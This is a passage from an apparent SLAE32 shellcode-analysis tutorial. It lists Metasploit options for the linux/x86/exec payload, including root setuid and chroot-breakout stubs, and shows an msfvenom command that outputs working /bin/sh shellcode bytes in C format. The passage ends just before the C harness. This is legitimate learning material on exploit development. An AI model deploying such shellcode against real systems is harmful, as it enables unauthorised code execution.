 ```shell

    Name                Current Setting  Required  Description
    ----                ---------------  --------  -----------
    AppendExit          false            no        Append a stub that executes the exit(0) system call
    NullFreeVersion     false            yes       Null-free shellcode version
    PrependChrootBreak  false            no        Prepend a stub that will break out of a chroot (includes setreuid to root)
    PrependFork         false            no        Prepend a stub that starts the payload in its own process via fork
    PrependSetgid       false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid     false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid    false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid    false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid     false            no        Prepend a stub that executes the setreuid(0, 0) system call
    PrependSetuid       false            no        Prepend a stub that executes the setuid(0) system call
    VERBOSE             false            no        Enable detailed status messages
    WORKSPACE                            no        Specify the workspace for this module

Evasion options for payload/linux/x86/exec:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

An arbitrary command could be set in `CMD` option, but if it isn't provided then the `/bin/sh` shell is going to be executed.

So the following command utilizes the `exec` payload and outputs the shellcode in `C` format.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/5_Msfvenom_payloads/2_exec$ msfvenom -p linux/x86/exec -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 20 bytes
Final size of c file: 110 bytes
unsigned char buf[] = 
"\x31\xc9\xf7\xe1\xb0\x0b\x68\x2f\x73\x68\x00\x68\x2f\x62"
"\x69\x6e\x89\xe3\xcd\x80";
```

Now we can paste the extracted shellcode in the file `shellcode.c`. So, the whole `C` program is the following:
